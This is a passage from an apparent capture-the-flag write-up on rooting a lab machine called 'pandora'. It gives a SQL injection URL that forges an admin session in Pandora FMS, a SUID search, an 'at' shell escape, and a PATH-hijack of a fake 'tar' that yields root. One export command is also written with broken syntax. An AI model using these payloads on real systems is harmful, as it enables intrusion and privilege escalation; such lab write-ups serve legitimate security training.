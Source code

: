 ```http:///pandora_console/include/chart_generator.php?session_id=%27%20union%20SELECT%201,2,%27id_usuario|s:5:%22admin%22;%27%20as%20data%20--%20SgGO'```
</pre>

From here, i looked for SUID binaries.
`find / -perm -u=s -type f 2>/dev/null`

<pre>
matt@pandora:/home/matt$ find / -perm -u=s -type f 2>/dev/null
/usr/bin/sudo
/usr/bin/pkexec
/usr/bin/chfn
/usr/bin/newgrp
/usr/bin/gpasswd
/usr/bin/umount
/usr/bin/pandora_backup
/usr/bin/passwd
/usr/bin/mount
/usr/bin/su
/usr/bin/at
/usr/bin/fusermount
/usr/bin/chsh
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/eject/dmcrypt-get-device
/usr/lib/policykit-1/polkit-agent-helper-1
</pre>

I checked some binaries on GTFObins, and found a possible shell escape using the `/usr/bin/at` binary.

```
echo "/bin/sh <$(tty) >$(tty) 2>$(tty)" | at now; tail -f /dev/null
```

Now when typing sudo, i am met with the normal functionality.

Another insteresting binary was  `pandora_backup`. I downloaded it to my host machine, and run `strings` to see if there is any useful information i can see.

```bash
PandoraFMS Backup Utility
Now attempting to backup PandoraFMS client
tar -cvf /root/.backup/pandora-backup.tar.gz /var/www/pandora/pandora_console/*
Backup failed!
Check your permissions!
```

It looks as though the tar command it used to compress files in the root directory. However i noticed the call to tar does not use the full path, and so i can change to $PATH to a custom tar executable, possibly allowing for priviledge esculation.

```bash
cd /tmp
echo "/bin/bash" > tar
chmod +777 tar
export PATH:/tmp:$PATH
pandora_backup
```

After running, we gained root access and can get the last flag in the root directory.

## Root
<pre>
root@pandora:/root# cat root.txt 
**111*884f**818dfc628***4e5f*30d
</pre>